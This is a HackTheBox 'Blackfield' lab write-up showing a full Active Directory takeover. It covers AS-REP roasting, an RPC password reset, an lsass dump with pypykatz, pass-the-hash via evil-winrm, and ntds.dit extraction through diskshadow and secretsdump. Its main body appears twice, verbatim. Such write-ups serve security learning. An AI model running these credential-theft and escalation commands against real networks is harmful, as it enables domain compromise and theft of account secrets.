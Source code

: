 ```yaml
---
title: HackTheBox - Blackfield 
category: writeup
tags: hackthebox
---
```


# Summary
Blackfield is a hard windows machine that involves initially gaining access as anonymous user to the profiles$ share and using all the usernames with GetSPNUsers.py giving us the hash for the user support which can be used to log into rpcclient and change the password for the user audit2020. Using the new credentials we authenticate with SMB again and grab the forensics share and the lsass.DMP file which contains working NTLM hash of the user svc_backup. Using which we login through evil-winrm. Abusing the SeBackupPrivilege and SeRestorePrivilege we can use diskshadow to get the ntds.dit and system hive using which we can dump the administrator hash and psexec in.

# NMAP:

NMAP scan reveals the following :

```
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-06 17:05:08Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
```

## SMB - 1

Attempting to authenticate with a anonymous:anonymous gives us access to the shares.

Using GetUserSPNs.py and the custom list of users we generate using the folders in the SMB profiles$ share we get the aseproast hash for the user support and cracking the hash reveals the password of #00^BlackKnight.

## RPC

Using the credentials we log in to RPC and follow the [https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html) guide to change the password for the user audit2020.

## SMB - 2

Checking the SMB share forensics we find a lsass.DMP file in the memory_analysis folder which most likely contains the hash for the current user. Therefore, using the tool pypykatz we are able to retrieve the hash for the user

```
pypykatz lsa minidump lsass.dmp
```

Using the hash along with evil-winrm gives us a shell as svc_backup.

```
evil-winrm -i 10.10.10.192 -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup
```

# Privilege Escalation

Checking the privileges for the current user reveals that the user svc_backup has the SeRestorePrivilege and the SeBackupPrivilege which can be abused to own a file and backup a file.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

In order to abuse the privileges we use the following  [https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9](https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9%20to%20get%20the%20ntds.dit).

Make a temp directory and add diskshadow.txt. Running diskshadow.txt will give an error and in order to avoid it a space character needs to be added to the end of each line.

```
$ cat diskshadow.txt
set context persistent NOWRITERS 
add volume c: alias someAlias 
create 
expose %someAlias% z: 
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\temp\ntds.dit 
delete shadows volume %someAlias% 
reset

------- Inside Evil-winrm -------
PS > cd C:\ ; mkdir temp ; cd temp
PS > upload diskshadow.txt
PS > diskshadow.exe /s c:\temp\diskshadow.txt
PS > cd z:/windows/ntds
PS > download ntds.dit
PS > reg.exe save hklm\system c:\temp\system.bak
PS > download c:\temp\system.bak

$ secretsdump.py -ntds ntds.dit -system system.bak LOCAL
```

This gives us an administrator hash which can be used with psexec.py to gain admin on the machine.

# NMAP:

NMAP scan reveals the following :

```
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-06 17:05:08Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
```

## SMB - 1

Attempting to authenticate with a anonymous:anonymous gives us access to the shares.

Using GetUserSPNs.py and the custom list of users we generate using the folders in the SMB profiles$ share we get the aseproast hash for the user support and cracking the hash reveals the password of #00^BlackKnight.

## RPC

Using the credentials we log in to RPC and follow the [https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html) guide to change the password for the user audit2020.

## SMB - 2

Checking the SMB share forensics we find a lsass.DMP file in the memory_analysis folder which most likely contains the hash for the current user. Therefore, using the tool pypykatz we are able to retrieve the hash for the user

```
pypykatz lsa minidump lsass.dmp
```

Using the hash along with evil-winrm gives us a shell as svc_backup.

```
evil-winrm -i 10.10.10.192 -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup
```

# Privilege Escalation

Checking the privileges for the current user reveals that the user svc_backup has the SeRestorePrivilege and the SeBackupPrivilege which can be abused to own a file and backup a file.

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

In order to abuse the privileges we use the following  [https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9](https://gist.github.com/bohops/d34d9cf7793ba5f98009bc4ab2acd8f9%20to%20get%20the%20ntds.dit).

Make a temp directory and add diskshadow.txt. Running diskshadow.txt will give an error and in order to avoid it a space character needs to be added to the end of each line.

```
$ cat diskshadow.txt
set context persistent NOWRITERS 
add volume c: alias someAlias 
create 
expose %someAlias% z: 
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\temp\ntds.dit 
delete shadows volume %someAlias% 
reset

------- Inside Evil-winrm -------
PS > cd C:\ ; mkdir temp ; cd temp
PS > upload diskshadow.txt
PS > diskshadow.exe /s c:\temp\diskshadow.txt
PS > cd z:/windows/ntds
PS > download ntds.dit
PS > reg.exe save hklm\system c:\temp\system.bak
PS > download c:\temp\system.bak

$ secretsdump.py -ntds ntds.dit -system system.bak LOCAL
```

This gives us an administrator hash which can be used with psexec.py to gain admin on the machine.
